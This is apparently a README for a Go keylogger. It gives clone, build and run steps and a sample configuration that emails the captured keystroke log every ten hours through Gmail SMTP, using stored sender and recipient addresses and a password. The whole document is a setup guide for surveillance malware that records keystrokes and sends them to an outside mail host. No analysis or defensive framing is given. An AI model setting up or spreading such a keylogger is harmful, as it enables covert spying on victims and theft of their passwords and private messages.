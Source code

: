 keylogger golang

install : 
$ git clone github.com/mehrati/gokeylogger
$ cd gokeylogger/
edit conf.toml with nano or vim or ..
-----------------------conf.toml example------------------------------
cron_duration = "@every 10h" # send mail keylog file every 10 hour
from_mail = "******@gmail.com" # address send email 
to_mail = "*******@gmail.com" # address recv email
user_mail = "*******@gmail.com" # user mail
subject_mail = "keylogger" # subject mail
host_mail = "smtp.gmail.com" # host mail
pass_mail = "*****" # password mail
port_mail = 587 # port mail
-----------------------------------------------------------------------
$ go build
run : 
$ sudo ./gokeylogger
kill :
$ ./kill.sh